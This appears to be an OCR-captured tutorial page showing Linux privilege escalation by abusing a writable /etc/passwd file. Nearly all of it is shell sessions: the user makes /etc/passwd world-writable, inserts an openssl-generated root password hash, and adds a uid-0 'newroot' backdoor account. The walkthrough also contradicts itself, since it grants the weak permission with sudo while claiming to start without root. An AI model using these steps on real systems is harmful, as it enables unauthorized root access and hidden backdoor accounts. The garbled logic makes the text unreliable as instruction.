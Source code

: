 "Exploiting Invalid Permissions on Password"  
Here, `ocat` has root privileges, but this example will show privilege escalation from a user who does not have root access.

```shell
whoami
ocat
# Create a user called 'user'
sudo useradd user
# Set a password for 'user'
sudo passwd user
ls -l /etc/passwd
-rw-r--r-- 1 root root 3409 Dec 14 09:20 /etc/passwd
# The above permissions are weak, so we escalate them
sudo chmod 777 /etc/passwd
ls -l /etc/passwd
-rwxrwxrwx 1 root root 3409 Dec 14 09:20 /etc/passwd
# Now, with full permissions, let's change the root password
# First, generate the password
openssl passwd hacked123
$1$WZv9DkcY$miAFvpNYY/pNLrSvkEZv0.
# Edit the passwd file
vi /etc/passwd
# Change root:x:0:0:root:/root:/usr/bin/zsh to
# root:$1$WZv9DkcY$miAFvpNYY/pNLrSvkEZv0.:0:0:root:/root:/usr/bin/zsh
# Save and login
su root
```

## Another Way to Exploit passwd

"Other Ways to Exploit Passwords"  
In this method, you will log in as `newocat` and `newroot`, but you'll mainly use the profiles of `ocat` and `root`.

```shell
# Login as user
su user
# Verify you're user
whoami
user
# Generate password
openssl passwd 123456
$1$iDaiqw3L$eJhRFa1syijyRR0SugGP70
cat /etc/passwd | grep ocat
# ocat:x:1000:1000:koki oka,,,:/home/ocat:/usr/bin/zsh
vi /etc/passwd
# Add newocat, newroot entries
# newocat:$1$iDaiqw3L$eJhRFa1syijyRR0SugGP70:1000:1000:koki oka,,,:/home/ocat:/usr/bin/zsh
# newroot:$1$iDaiqw3L$eJhRFa1syijyRR0SugGP70:0:0:root:/root:/usr/bin/zsh
# Login as newocat
su newocat
ocat@localhost
# Verify it's ocat
whoami
ocat
# Login as newroot
su newroot
root@localhost
# Verify it's root
whoami
root
```
